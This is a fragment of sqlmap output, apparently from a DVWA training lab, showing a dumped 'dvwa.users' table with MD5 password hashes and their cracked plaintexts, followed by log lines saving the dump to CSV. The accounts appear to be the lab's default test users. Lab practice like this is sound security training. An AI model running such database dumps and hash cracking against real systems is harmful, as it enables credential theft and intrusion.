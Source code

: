     | user_id | user    | avatar                                               | password                                    | last_name | first_name |
    +---------+---------+------------------------------------------------------+---------------------------------------------+-----------+------------+
    | 1       | admin   | http://192.168.8.142/dvwa/hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      |
    | 2       | gordonb | http://192.168.8.142/dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     |
    | 3       | 1337    | http://192.168.8.142/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       |
    | 4       | pablo   | http://192.168.8.142/dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      |
    | 5       | smithy  | http://192.168.8.142/dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        |
    +---------+---------+------------------------------------------------------+---------------------------------------------+-----------+------------+

    [17:50:18] [INFO] table 'dvwa.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/192.168.8.142/dump/dvwa/users.csv'
    [17:50:18] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:50:18 /2022-11-17/
